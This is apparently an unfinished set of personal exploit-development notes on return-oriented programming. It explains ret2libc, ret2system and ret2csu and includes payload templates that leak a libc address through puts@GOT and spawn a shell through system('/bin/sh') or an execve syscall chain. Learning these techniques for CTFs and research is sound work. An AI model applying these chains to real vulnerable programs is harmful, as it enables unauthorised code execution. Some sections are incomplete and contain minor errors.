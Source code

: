 
### in progress


ROP
	what is ROP
	how to find Gadgets (ropper)
	how to find Strings in an ELF	
	how to pivote the Stack


# ret2libc (dynamically linked ELF)
```
		to use ret2libc we need to know two things
	
		1. the exact libc version the ELF uses
		2. the base addr of libc in the process
		

		to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
		(we also need this for finding the base of libc in the process)

		since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)

		```	
		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
		payload += p64(puts@GOT)		#addr puts@GOT
		payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
		```

		this payload will print the libc addr of puts() in the current process.

		puts_leak = `leaked addr here`

		ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.

		we will use a libc database like https://libc.blukat.me/ to find the exact version
		libc.blucat will find the libc based of the last 3 nibbles of the leaked addr siche these will always be the same 

		`last 3 nibbles of leaked addr here` 

		### BILD VON LIBC.BLUCAT.ME einfuegen ###
		
		usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

		ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
		use `vmmap` to find the libc base

		```
		vmmap output here
		```
		
		know_libc_base = `libc base here`		

		offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
		libc_base = puts_leak - offset

		ok we now know the libc version and the exact libc_base inside the current process.
		now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

		1. setup the argument for system(pointer_binsh) 
		2. call the libc function system()

		payload = b''
		payload += b'A'*0x10			#padding
		payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
		payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
		payload += p64(system)			#call the libc system function

```




# ret2system (statically linked ELF)
```
		`syscall(rax,rdi,rsi,rdx)`	
		we want to call `execve(pointer_binsh,0,0)` to spawn a shell

		so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
		1. find the syscall number for execve
		2. find a gadget that can write to a pointer like `mov [rdi],rdx`
		3. write b'/bin/sh\x00' to a writable addr.
		4. setup the registers and than syscall

		check this to find syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit`
		
		we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`

		we need a gadget that can write to a pointer so we can store the `/bin/sh\x00` string somewhere
		we can find such a gadget by using `ropper`

		```
		ropper /1/ mov [r??],r??
		```		

		i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
		since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
		when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.



		payload = b''
		payload += b'A'*0x10			#padding

		payload += p64(pop_rax)			#set rax to 0x3b
		payload += p64(0x3b)

		payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
		payload += p64(.bss)			#addr where we want to write to

		payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
		payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
		
		payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
		
		payload += p64(pop_rsi)			#set rsi to 0
		payload += p64(0x00)

		payload += p64(pop_rdx)			#set rdx to 0
		payload += p64(0x00)

		payload += p64(syscall)				

```


# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)   not finished/ in progress
```
		the `__libc_csu_init` function is responsible to initialize libc files.
		in this function there are some interesting gadgets we can use.

		first gadget let us controll some registers with pop
		```
     		__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```

		and this will let us controll rdx,rsi and edi but we need to meet some conditions 
		
		```                	 
        	__libc_csu_init+64	MOV        RDX,R14
        	__libc_csu_init+67 	MOV        RSI,R13
        	__libc_csu_init+70 	MOV        EDI,R12D
        	__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
        	__libc_csu_init+77	ADD        RBX,0x1
        	__libc_csu_init+81	CMP        RBP,RBX
        	__libc_csu_init+84	JNE        __libc_csu_init+64
        	__libc_csu_init+86	ADD        RSP,0x8
        	__libc_csu_init+90	POP        RBX
        	__libc_csu_init+91	POP        RBP
        	__libc_csu_init+92	POP        R12
        	__libc_csu_init+94 	POP        R13
        	__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
        	__libc_csu_init+100 	RET
		```

		rbx,rbp,r12,r13,r14,r15

		rdx = r14
		rsi = r13
		edi = r12D
		rip = [r15 + rbx*8] #we use this to syscall
```
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">







# BROP 

# SROP
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
